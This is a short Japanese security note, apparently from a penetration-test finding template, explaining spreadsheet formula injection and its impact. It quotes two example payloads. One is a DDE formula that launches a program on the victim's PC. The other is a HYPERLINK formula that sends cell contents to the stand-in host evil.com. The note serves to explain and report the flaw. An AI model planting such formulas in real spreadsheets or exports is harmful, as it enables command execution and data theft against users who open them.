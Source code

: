 #+TITLE: Formula Injection

* Formula Injection
** 概要
Command Injection種類の一つであるFormula Injection が可能です。


次のような攻撃ペイロードが私用されます。

#+BEGIN_SRC bash
=cmd|'/Ccalc.exe'!z
=HYPERLINK(“http://evil.com?x=”&A3&”,”&B3&”[CR]”,”Error fetching info: Click me to resolve.”)
#+END_SRC


** Security Impact
- 被害者PCのプログラムが実行されます。
- 被害者を悪質なサイトに誘導することができます。（フィッシング詐欺、ドライブバイダウンロード攻撃などの追加被害が発生する可能性があります。）


** Ref
https://pentestmag.com/formula-injection/










